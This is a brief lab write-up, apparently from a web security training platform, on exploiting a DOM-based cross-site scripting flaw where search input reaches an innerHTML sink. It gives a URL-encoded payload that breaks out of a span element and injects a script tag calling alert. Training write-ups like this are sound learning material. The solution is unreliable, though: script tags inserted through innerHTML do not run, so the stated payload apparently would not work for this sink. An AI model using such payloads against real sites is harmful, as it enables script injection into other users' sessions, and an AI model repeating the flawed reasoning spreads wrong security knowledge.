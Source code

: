 # Lab: DOM XSS in innerHTML sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

To solve this lab, perform a cross-site scripting attack that calls the alert function.

## Cross Site Scripting 
* 題目說在 search 有問題，稍微觀察一下可以看到搜尋的字串用 `<span>` 包起來，所以跳脫就可以過關了
```
payload = https://aca11f3e1f198705c09d7f2e006a0001.web-security-academy.net/?search=%3C%2Fspan%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```